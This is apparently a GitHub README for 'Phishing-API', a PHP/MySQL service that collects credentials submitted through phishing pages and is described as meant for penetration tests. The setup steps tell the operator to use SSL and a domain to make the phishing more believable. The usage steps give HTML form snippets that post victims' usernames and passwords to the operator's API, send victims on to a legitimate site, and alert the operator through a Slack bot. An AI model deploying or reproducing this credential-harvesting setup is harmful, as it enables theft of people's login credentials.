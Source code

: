 # Phishing-API
Easy Deployment API for Phishing During Pentest Engagements.  Output to MySQL/Web Table &amp; Slack Bot

To Setup :

1) Import the DB SQL Dump Schema to a new MySQL Instance

2) Host the PHP in a web service

3) Configure dbconfig.php

4) Limit Access to the "Results" Directory (Apache's Basic Auth is Recommended)

5) Use SSL and a Domain for the Hosted API (More Believable for Phishing)



To Use : 

1) Point your HTML Form to https://YOUR-API-HERE

	<FORM METHOD="POST" ACTION="https://YOUR-API-HERE">

2)  Make sure the "username" and "password" fields are named as such

	<INPUT NAME="username">
	<INPUT NAME="password">
	
3) Add hidden input fields for the name of the project and the URL the users should be redirected to after submitting their credentials to you (Recommend Legitimate Site)

	<INPUT NAME="project" VALUE="My_Project_Here" TYPE="hidden">
	<INPUT NAME="redirect" VALUE="https://site_to_redirect_to" TYPE="hidden">
	
4) Optionally include hidden input fields for altering the Slack bot's behavior (Name and Emoji)

	<INPUT NAME="slackbotname" VALUE="SuckerBot" TYPE="hidden">
	<INPUT NAME="slackemoji" VALUE=":see_no_evil:" TYPE="hidden">
	
5) Sit back and wait for the Slack bot to notify you.  When you want to see the credentials visit https://YOUR-API-HERE using your basic auth credentials
